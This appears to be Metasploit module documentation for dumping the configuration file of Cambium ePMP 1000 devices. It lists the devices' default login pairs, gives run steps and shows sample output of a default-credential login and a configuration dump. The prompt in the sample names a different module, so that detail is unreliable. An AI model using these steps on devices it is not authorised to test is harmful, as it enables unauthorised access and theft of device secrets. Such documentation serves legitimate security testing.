 This module dumps Cambium ePMP 1000 device configuration file. An ePMP 1000 box has four (4) login accounts - admin/admin, installer/installer, home/home, and readonly/readonly. This module requires any one of the following login credentials - admin / installer / home - to dump device configuration file.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_dump_config```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/epmp1000_dump_config
msf auxiliary(binom3_login_config_pass_dump) > set rhosts 1.3.3.7
msf auxiliary(binom3_login_config_pass_dump) > set rport 80
msf auxiliary(binom3_login_config_pass_dump) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 3.2...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7 - dumping configuration
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_ePMP_config_216595.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


  ```
